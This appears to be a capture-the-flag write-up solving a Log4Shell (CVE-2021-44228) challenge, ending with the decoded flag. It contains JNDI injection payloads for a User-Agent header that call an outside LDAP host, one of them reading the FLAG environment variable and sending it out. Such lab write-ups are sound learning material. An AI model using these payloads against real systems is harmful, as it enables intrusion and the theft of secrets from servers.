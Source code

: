 # Day 24 - The watcher

We have found a service that watches our every step, are you able to figure out how we can read the FLAG from the environment? NB. Container will be restarted every 30 minutes.

## Write-Up
When accessing todays challenge we are looking at a message telling us **"Be careful, I'm logging everything..."**. For the greater part of this December, Apache Log4j has been the hot topic as it was reported a vulnerability in its *jndi* lookup feature, https://nvd.nist.gov/vuln/detail/CVE-2021-44228. I believe the hints are pointing us towards this vulnerability.

Many has written about it, testet it and made tools around this. A good video from [LiveOverflow - YouTube](https://www.youtube.com/watch?v=w2F67LbEtnk) and a demonstration from [John Hammond - YouTube](https://www.youtube.com/watch?v=7qoPDq41xhQ).

To test todays challenge we will use one of the many tools/testers/scanners out there; https://log4shell.huntress.com/

We start our proxy, *Burp* in my case, and make our web-browser proxy the traffic. The thing we are after are the **GET** request, so we do not need to intercept and tamper with the initial traffic. We send the request to *Repeater* and edit the *User-Agent* header field with the link and identifier we have from *Huntress*. If we have gotten this right and the page is vulnerable, we should se a request and information populated.

Example value for the *User-Agent* field
```
${jndi:ldap://log4shell.huntress.com:1389/e09d3d5e-e548-404e-9989-4606547ddb16}
```

Ay Caramba... we get data... and now know that this is about Log4J/jndi. We are tasked with reading the "FLAG from the environment", so we could guess that there is an environment variable called *FLAG*. We can also get this by using the *Huntress* test site. To read such keys we onlye have to edit the *User-Agent* value a little bit and add *`data=${env:FLAG}`*, making the complete value look similar to this

``` shell
${jndi:ldap://log4shell.huntress.com:1389/flag=${env:FLAG}/e09d3d5e-e548-404e-9989-4606547ddb16}
```

On the test-site we should then see the FLAG environment variable.

![](./images/image01.png)

The data indicate that the string is Base32 encoded, so let's decode it.

``` shell
$ echo "KJJVQQ33K5SV6ZDPL5WGS23FL5WG6Z3HNFXGOX3SNFTWQ5B7PU" | base32 -d
RSXC{We_do_like_logging_right?base32: invalid input

[Need some extra padding to get rid of the error...]
$ echo "KJJVQQ33K5SV6ZDPL5WGS23FL5WG6Z3HNFXGOX3SNFTWQ5B7PU======" | base32 -d
RSXC{We_do_like_logging_right?}
```

And we have solved the last challenge.

## The Flag
RSXC{We_do_like_logging_right?}